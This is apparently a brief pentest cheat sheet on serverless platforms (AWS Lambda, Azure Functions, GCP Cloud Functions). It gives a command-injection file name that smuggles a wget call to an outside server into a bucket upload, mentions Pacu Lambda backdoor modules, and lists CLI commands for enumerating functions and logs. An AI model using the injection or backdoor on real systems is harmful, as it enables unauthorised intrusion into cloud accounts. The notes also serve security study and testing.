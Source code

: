 # Serverless

## Serverless

* Can deploy apps without worrying about the infrastructure behind.

### Examples

* **AWS Lamda**

Can automate task : file uploaded on a S3 Buckets -&gt; processing file

* **Azure Functions**

Can trigger functions with Office Suite if a document is uploaded on OneDrive

* **GCP Cloud Functions**

Can integrate Google Assistant, IoT devices etc. ..

### Attacks Examples

* Acting like classic Webapps
* Bucket file upload :
  * upload a file named like

```text
safe_image.jpg; wget http://my_server.com/
```

* Can be backdoored :
  * AWS Lambda with Pacu

```text
lambda__backdoor__*
```

### GCP functions and log analysis

#### Enumeration :

```csharp
gcloud functions list
gcloud functions describe <FUNCTION NAME>
gcloud functions logs read <FUNCTION NAME> --limit <NUMBER OF LINES>
```

### AWS 

#### Enumeration

```text
aws lambda list-functions
aws lambda get-function --function-name <LAMBDA FUCNTION>
```

